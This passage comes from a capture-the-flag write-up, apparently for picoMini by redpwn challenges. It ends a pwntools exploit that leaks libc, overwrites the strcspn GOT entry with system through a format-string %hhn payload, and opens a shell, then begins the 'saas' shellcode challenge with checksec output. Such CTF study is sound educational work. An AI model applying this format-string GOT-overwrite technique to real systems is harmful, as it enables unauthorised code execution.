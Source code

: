 ```python

    libc_system = libc_base + offset_system
    log.info(f"leaked libc_system: {hex(libc_system)}")

    payload = b"11111111"
    payload += p64(exe.got['strcspn'])
    payload += p64(exe.got['strcspn']+1)
    payload += p64(exe.got['strcspn']+2)
    r.sendline(payload)

    payload = b"1"
    payload += f"%{overflow((0x2b), libc_system & 0xff) + 5}x".encode()
    payload += b"%11$hhn"
    write_val = overflow((0x10), (libc_system >> 8) & 0xff)
    payload += f"%{write_val}x".encode()
    payload += b"%12$hhn"
    payload += f"%1${overflow(write_val, (libc_system >> 16) & 0xff) - 0x10}hhx".encode()
    payload += b"%13$hhn"
    r.sendline(payload)

    r.sendline(b"/bin/sh".ljust(0x100,b'\x00'))
    r.sendline(b"hi")

    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

Honestly not a great solution -- it's a little finicky and usually takes multiple executions to work but it got me the flag so I didn't care to fix it. 

# saas


```text
Shellcode as a Service runs any assembly code you give it! For extra safety, you're not allowed to do a lot...

nc mars.picoctf.net 31021
```

Again, we're provided [source](/ctf/picomini-by-redpwn/saas/chall.c), [binary](/ctf/picomini-by-redpwn/saas/chall), and [Dockerfile](/ctf/picomini-by-redpwn/saas/Dockerfile). 

```text
❯ checksec chall
[*] '/home/sky/Dropbox/ctf/picomini-by-redpwn/saas/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
